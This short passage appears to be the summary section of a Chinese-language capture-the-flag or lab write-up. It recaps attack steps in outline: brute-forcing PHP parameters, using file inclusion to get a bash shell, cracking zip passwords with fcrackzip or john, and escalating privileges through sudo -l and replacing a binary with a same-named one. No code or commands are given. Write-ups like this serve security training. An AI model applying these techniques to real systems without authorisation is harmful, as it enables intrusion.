


## 总结

1. 目录扫描时若发现有`php`类似脚本文件，可能会有参数传值，可以进行参数爆破
2. 利用文件包含获取新的`bash`
3. 压缩包的密码破解，可以使用工具`fcrackzip`或者`john`套件
4. 提权时，仔细观察具有SUID的，假设`sudo`，这里就是通过`sudo -l`来查询，然后同名替换，执行提权


